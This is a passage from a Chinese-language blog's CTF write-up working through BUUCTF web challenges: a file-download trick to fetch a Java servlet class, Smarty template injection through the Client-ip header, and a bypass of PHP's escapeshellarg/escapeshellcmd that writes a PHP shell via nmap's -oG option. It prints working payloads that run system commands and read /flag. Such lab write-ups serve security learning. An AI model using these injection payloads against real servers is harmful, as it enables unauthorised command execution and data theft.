<servlet-name>FlagController</servlet-name>
<servlet-class>com.wm.ctf.FlagController</servlet-class>
</servlet>
<servlet-mapping>
<servlet-name>FlagController</servlet-name>
<url-pattern>/Flag</url-pattern>
</servlet-mapping>其中 com.wm.ctf.FlagController 为一个 class 文件，每个点号代表一层目录，而 /Flag 则为可通过 URL 访问的页面。访问 /Flag 页面会返回 500 错误，同时报错提示没有找到上述的那个 class 文件，所以我们直接将那个 class 文件下载下来，里面大概率有点东西。
使用如下 payload 即可下载 FlagController.class 文件：
1
filename=/WEB-INF/classes/com/wm/ctf/FlagController.class
反编译后的代码如下：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//
import java.io.IOException;
import java.io.PrintWriter;
import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
public class FlagController extends HttpServlet {
String flag = "ZmxhZ3tjYTU5NGJiZS05ZDY1LTRlZDQtOWZjMC03ODZmZmNiODhjYmV9Cg==";
public FlagController() {
}
protected void doGet(HttpServletRequest var1, HttpServletResponse var2) throws ServletException, IOException {
PrintWriter var3 = var2.getWriter();
var3.print("<h1>Flag is nearby ~ Come on! ! !</h1>");
}
}其中 flag 变量值即为 flag，不难看出进行可 base64 加密，进行一次解密操作即可。
[BJDCTF2020]The mystery of ip
打开靶机共有三个页面，其中 flag.php 十分吸睛，打开页面发现其返回了我们的 IP 地址，不过是一个局域网地址，应该是被修改过了。结合标题，本题重点就在这个 IP 上了。
尝试在请求头中添加的 Client-ip 或者 X-Forwarded-For 字段看是否能控制该 IP 值。实测这两个字段均可以控制该值：
借此完成 XSS 笔者倒是会，但是如何利用来获取 flag 就不懂了。
参考了其他师傅们的题解后发现，本题考的是模板注入（SSTI），原理就是网站开发所使用的框架在接收数据后未经任何处理就将其作为 Web 应用模板内容的一部分，我们可以按模板要求的格式来传递语句并在后台执行，而如何判断模板类型可参考下图。
其中本题的模板为 Smarty，及在输入 ${7*7} 时程序可正确执行运算并输出 49，而在输入 a{*comment*}b 时程序会将中间部分视为注释而直接输出 ab。
知道模板为 Smarty 后即可针对该模板进行注入了，而且也可以发现该模板会将花括号包裹的数据视为表达式并执行。一般 flag 都在根目录，所以这里首先通过执行 ls 命令查看根目录内容，在请求头中添加如下 payload 即可。
1
Client-ip: {system("ls /")}
查询结果如下，可知目录中包含 flag 文件。
接下来使用如下 payload 查看这个文件即可拿到 flag。
1
Client-ip: {system("cat /flag")}
[BUUCTF 2018]Online Tool
打开靶机，直接就是一段 PHP 代码，如下。
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
// 获取 X_FORWARDED_FOR 字段处的地址
if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
$_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}
if(!isset($_GET['host'])) {
highlight_file(__FILE__);
} else {
$host = $_GET['host'];
// escapeshellarg —— 把字符串转码为可以在 shell 命令里使用的参数
/* 将给字符串增加一个单引号并且能引用或者转码任何已经存在的单引
号，这样以确保能够直接将一个字符串传入 shell 函数，shell 函
数包含 exec(), system() 执行运算符(反引号) */
$host = escapeshellarg($host);
// escapeshellcmd —— shell 元字符转义
/* 对字符串中可能会欺骗 shell 命令执行任意命令的字符进行转义。
此函数保证用户输入的数据在传送到 exec() 或 system() 函数，
或者执行操作符之前进行转义。反斜线（\）会在以下字符之前插
入： &#;`|*?~<>^()[]{}$,\x0A 和 \xFF。 ' 和 " 仅在
不配对儿的时候被转义。在 Windows 平台上，所有这些字符以及
% 和 ! 字符都会被空格代替。 */
$host = escapeshellcmd($host);
$sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
echo 'you are in sandbox '.$sandbox;
@mkdir($sandbox);
chdir($sandbox);
echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
}程序通过 GET 方法接收一个 host 变量，并通过两个函数对数据进行处理，其中 escapeshellarg 函数会先将变量中含有的单引号转义掉，然后将单引号分割下的几部分都用单引号括起来，这样就重新连接成了一个完整的字符串。比如传入 h-t-m' myr 520，经过 escapeshellarg 函数处理后就会变成 'h-t-m'\'' myr 520'，对于 Shell 来说其实就是一个字符串 'h-t-m\' myr 520'，这也导致我们始终仅能提交单个参数而不能执行其他命令。而 escapeshellcmd 函数则是对一些元字符进行转义，包括常用的特殊符号及为配对的单双引号。对变量 host 操作完毕后程序就会根据当前地址来配合计算出 MD5 值来创建新目录，并随后在新目录中执行 nmap 扫描。
- escapeshellarg 和 escapeshellcmd 两个函数结合在一起就很有意思了，具体可以参考 [这篇博文](https://paper.seebug.org/164) 。如前文中经过 escapeshellarg 函数处理后的字符串 'h-t-m'\'' myr 520'，再次经过 escapeshellcmd 函数处理则会变成 'h-t-m'\\'' myr 520\'。后一次操作将前一次操作后的转义字符给转义了，同时末尾单引号也因为落单而被转义了，对于 Shell 来说上述数据就是 h-t-m\ myr 520'。这下好了，想执行多少命令就执行多少命令。
在 nmap 的参数中 -oG 可用于将命令以及结果输出到指定文件中，其中输出结果不好控制，但是如果命令就是一段 PHP 程序然后写入的又是 PHP 文件的话，之后访问这个文件不就想执行啥就执行啥。payload 如下，根据经验，直接把根目录的 flag 抓出来，反引号表示先执行。
1
?host='<?php echo `cat /flag`;?> -oG h-t-m.php '
该 payload 经两个函数处理后如下：
1
''\\''<?php echo `cat /flag`;?> -oG h-t-m.php '\\'''
等价于：
1
<?php echo `cat /flag`;?> -oG h-t-m.php \
其中文件名后应留有一个空格，避免最后的反斜杠干扰文件名。随后浏览器便会回显经过 MD5 哈希后的目录名，沿着该目录访问 h-t-m.php 即可拿到 flag。

后记
本篇博客至此也就结束了，恍恍惚惚又是一万字，笔者不懂的实在太多了就是说。在 BUU 按顺序的题目难度越来越高，很多题目在不偷看其他师傅们的 WP 的情况下甚至不知道该干嘛，虽然学到的越来越多，但是人也越来越麻了。
回头看看的话，笔者博客首页竟然堆得满满的全是 BUU，惭愧惭愧，还是应该抽点时间干点别的有意思的事情，天天被 BUU 打击可不是长久之计。